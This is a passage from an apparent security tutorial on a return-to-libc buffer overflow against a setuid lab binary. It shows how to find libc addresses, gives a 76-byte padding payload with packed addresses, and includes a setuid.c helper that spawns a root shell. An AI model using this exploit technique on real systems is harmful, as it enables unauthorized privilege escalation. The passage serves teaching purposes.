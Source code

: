 If we wanted `system()` to "return" to, e.g., `exit()`, we should also find the latter's absolute address within the process virtual memory:

```
$ readelf -all /lib32/libc.so.6 | grep ' exit'
   150: 00033ec0    39 FUNC    GLOBAL DEFAULT   15 exit@@GLIBC_2.0
```

This gets us an absolute address for `exit()` of `0xf7dffec0`.

Finally, we try to find an address for a pre-existing copy of the string `"/bin/sh"` inside `glibc`:

```
$ strings -tx /lib32/libc.so.6 | grep '/bin/sh'
 18b363 /bin/sh
```

The *relative* address of the string `"/bin/sh"` within `glibc` is `0x0018b363`.

The *absolute* address of `"/bin/sh"` within the process virtual memory is `0xf7f57363`.

Remember that Intel is a Little Endian architecture, so 32-bit addresses are physically represented beginning with the *least* significant byte.

We launch the attack:

```
$ chk_cube_cmd \
  $(python2 -c 'print "A"*76 + "\x60\xd3\xe0\xf7\xc0\xfe\xdf\xf7\x63\x73\xf5\xf7"')
cube_cmd: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAA`�������cs��
$ whoami
user
$ exit
```

The problem is that `system("/bin/sh")` will drop root privileges before executing the shell, as also specified in the `man 3 system` documentation.

Instead, we have to get `chk_cube_cmd` to run a different program of our own making. We could pick a name for which we already have an existing string in `glibc`, e.g., `"setuid"`:

```
$ strings -tx /lib32/libc.so.6 | grep 'setuid'
   e0d8 setuid
```

The `"setuid"` string will be found at the absolute address `0xf7dda0d8`.

Let's write a `setuid.c` program:

```
#include <unistd.h>

int main(int argc, char *argv[]) {
        setuid(0);
        execl("/bin/sh", "/bin/sh", NULL);
}
```
